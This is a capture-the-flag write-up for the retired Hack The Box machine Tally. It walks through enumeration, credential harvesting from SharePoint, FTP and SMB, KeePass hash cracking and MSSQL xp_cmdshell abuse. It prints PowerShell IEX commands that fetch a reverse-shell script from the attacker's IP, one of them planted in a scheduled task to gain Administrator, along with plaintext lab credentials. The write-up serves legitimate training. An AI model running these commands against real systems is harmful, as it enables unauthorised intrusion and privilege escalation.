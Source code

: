 # Tally

This is the write-up for the box Tally that got retired at the 28th May 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.59    tally.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tally.nmap 10.10.10.59
```

```markdown
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst:         
|_  SYST: Windows_NT                                                                             
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
81/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                      
|_http-title: Bad Request
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp  open  ccproxy-http?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: TALLY                                                                           
|   NetBIOS_Domain_Name: TALLY                                                                   
|   NetBIOS_Computer_Name: TALLY       
|   DNS_Domain_Name: TALLY
|   DNS_Computer_Name: TALLY
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-05-23T16:45:02
|_Not valid after:  2050-05-23T16:45:02
|_ssl-date: 2020-05-23T16:48:23+00:00; +2m27s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page is a **SharePoint** page with no contents.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.59 dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt
```

An interesting directory in SharePoint by default is _/_layouts/viewlsts.aspx_ in which it shows the sites contents:

![Site contents](tally_web-1.png)

In _Site Pages_ is a web page file called _"FinanceTeam.aspx"_ which is a page on the SharePoint with the following message:
```markdown
Hi all,

Welcome to your new team page!
As always, there's still a few finishing touches to make. Rahul - please upload the design mock ups to the Intranet folder as 'index.html' using the ftp_user account - I aim to review regularly.

We'll also add the fund and client account pages in due course.

Thanks - Sarah & Tim.
```

In _Documents_ is a Word document called _"ftp-details.docx"_ with the following contents:
```markdown
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Combining the information from the message and the Word document, it means we probably got credentials for the FTP service:
> ftp_user:UTDRSCH53c"$6hys

```markdown
ftp 10.10.10.59
```

Login works and enumerating the FTP service is next.

## Checking FTP (Port 21)

In the FTP directory are many folders with subfolders and files, so lets download all of it to our local client.
```markdown
wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@10.10.10.59'
```

The top folders are as follows with many subfolders:
- From-Custodian
- Intranet
- Logs
- To-Upload
- User

In _/User_ are 9 usernames and _Tim_ has a **KeePass** database in _User/Tim/Files/tim.kdbx_ and a text file in _User/Tim/Project/Log/do to.txt_ that says:
```markdown
To do:
Remove migration folder
Set secure share permissions

encrypted share creds:
password in keepass
```

Lets try to crack the password of the KeePass database:
```markdown
keepass2john ./Tim/Files/tim.kdbx

# Output
$keepass$\*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

Cracking the hash with **Hashcat**:
```markdown
hashcat -m 13400 tally-tim.keepass /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> simplementeyo

There are two credentials in there and one that could be the one for the encrypted share he mentioned in his text file:
```markdown
Title: TALLY ACCT share
User Name: Finance
Password: Acc0unting

Title: Default
User Name: cisco
Password: cisco123
```

We know that the SMB service is open so lets mount the share locally for easier browsing:
```markdown
mount -t cifs -o username=Finance //10.10.10.59/ACCT /mnt/tally
```

The password works and enumerating SMB is next.

## Checking SMB (Port 445)

There are many folders and subfolders but the most interesting folder is called _zz_Migration_ as _Tim_ wanted to remove this folder.
After searching for a while, there is a binary called _zz_Migration/Binaries/New Folder/tester.exe_ which looks suspect next to the other binaries that are legitimate.

Lets look at the **strings** of the binary:
 ```markdown
strings tester.exe
```

It seems like there are hardcoded credentials in the binary for **Orchard database**:
```markdown
(...)
Message:
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
(...)
```

As the initial scan showed, **Microsoft SQL Server** service listens on port 1433 and login with these credentials work:
```markdown
sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
```

## Checking Microsoft SQL Server (Port 1433)

With the connection on MS SQL Server we try to start a shell on the box:
```markdown
xp_cmdshell
go
```

It says that is not enabled, so lets enable it:
```markdown
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go

EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
```

Now executing a `whoami` command:
```markdown
xp_cmdshell 'whoami'
go
```

It shows that we are the local user _sarah_. I will use a the _Invoke-PowerShellTcp.ps1_ script from the **Nishang Framework** so start a reverse shell on the box:
```markdown
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34/Invoke-PowerShellTcp.ps1')"
go
```

After executing the listener on my IP and port 9001 starts a reverse shell session as _sarah_.

## Privilege Escalation

In the home directory _C:/Users/Sarah/Desktop_ are some more interesting files:
- note to tim (draft).txt
```markdown
Hi Tim,

As discussed in the cybersec meeting, malware is often hidden in trusted executables in order to evade detection. I read somewhere that cmd.exe is a common target for backdooring, so I've gone ahead and disallowed any cmd.exe outside the Windows folder from executing.

Thanks,
Sarah
```

- todo.txt
```markdown
done:
install updates
check windows defender enabled

outstanding:
update intranet design
update server inventory
```

- SPBestWarmUp.ps & SPBestWarmUp.xml

The Powershell script can be found on the internet but it is irrelevant what it does. In the XML file it shows, that it creates a scheduled task which executes the Powershell script every hour with the user id of _TALLY\Administrator_.

Our user has permission to write to the Powershell script, so lets use it to start a reverse shell as _Administrator_.
```markdown
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34/Invoke-PowerShellTcp.ps1')" > SPBestWarmUp.ps1
```

After one hour the listener on my IP and port 9002 will start a reverse shell as Administrator!
